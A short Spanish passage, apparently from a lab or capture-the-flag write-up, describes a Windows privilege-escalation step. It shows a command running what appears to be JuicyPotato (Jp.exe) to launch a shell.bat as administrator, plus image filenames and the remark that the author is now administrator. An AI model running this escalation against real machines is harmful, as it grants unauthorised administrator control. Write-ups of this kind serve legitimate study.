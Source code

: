 ![2170674f66c7dbc5f12ffd837d926847.png](2170674f66c7dbc5f12ffd837d926847.png)

Una vez subida todo lo necesario, ejecutemos lo siguiente, pero antes debemos de tener un servidor web a nivel de red, esto lo podemos hacer con python3 :

```bash
.\\Jp.exe -t * -p C:\\Users\\merlin\\appdata\\local\\temp\\privesc\\shell.bat -l 9002 
```

![233cff5f0416cdb6982c8af7e29f414c.png](233cff5f0416cdb6982c8af7e29f414c.png)

Ya seriamos administradores wow:

![dbcac5271c95c2e2555755f9f8cd9df7.png](dbcac5271c95c2e2555755f9f8cd9df7.png)
